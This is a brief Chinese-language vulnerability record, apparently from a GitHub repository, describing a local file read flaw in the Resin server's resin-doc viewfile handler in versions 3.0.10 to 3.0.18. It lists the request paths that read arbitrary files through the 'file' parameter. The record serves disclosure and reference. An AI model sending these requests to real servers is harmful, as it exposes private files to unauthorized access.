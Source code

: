 ##cve编号：无
##漏洞名称：本地文件读取
##漏洞类型：本地文件读取
##影响版本：
- 3.0.10-3.0.18
- 3.0.19不受影响
##利用脚本：
##漏洞细节：
- 访问/resin-doc/viewfile/?contextpath=/&servletpath=&file=fakefile.xml
- resin-doc/viewfile/?file=index.jsp
- 参数file可读取文件
##reference：
